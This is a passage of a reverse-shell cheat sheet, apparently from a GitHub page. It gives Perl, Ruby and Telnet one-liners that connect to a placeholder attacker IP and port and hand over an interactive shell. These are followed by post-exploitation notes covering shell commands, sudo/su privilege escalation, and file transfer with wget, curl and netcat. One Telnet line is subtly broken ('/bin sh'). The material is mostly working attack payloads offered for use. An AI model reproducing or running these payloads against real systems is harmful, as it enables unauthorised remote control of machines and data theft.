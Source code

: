 ```
perl -e 'use Socket;$i="$ENV{<attacker IP>}";$p=$ENV{<attacker port>};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby


```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["<attacker IP>"],ENV["<attacker port>"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


## Telnet

```
TF=$(mktemp -u); mkfifo $TF && telnet <attacker IP> <attacker port> 0<$TF | /bin sh 1>$TF
```


## Using a Reverse Shell

Once you have created a reverse shell payload and established a connection to the target machine, you can use the shell session to execute commands and perform various actions on the target machine. Here are some useful commands and techniques:

## Basic Commands

- `pwd`: Print current working directory.
- `ls`: List contents of current directory.
- `cd`: Change current directory.
- `cat`: Display contents of a file.
- `rm`: Remove a file or directory.
- `mkdir`: Create a new directory.
- `cp`: Copy a file or directory.
- `mv`: Move a file or directory.

# Privilege Escalation

- `sudo -l`: List available sudo commands for the current user.
- `sudo <command>`: Run a command with elevated privileges.
- `su`: Switch to the root user.
- `sudo su`: Switch to the root user with elevated privileges.

# File Transfer

- `wget <file URL>`: Download a file from the internet.
- `curl <file URL>`: Download a file from the internet.
- `nc -l <local port> > <file>`: Receive a file over the network using netcat.
- `nc <target IP> <target port> < <file>`: Send a file over the network using netcat.
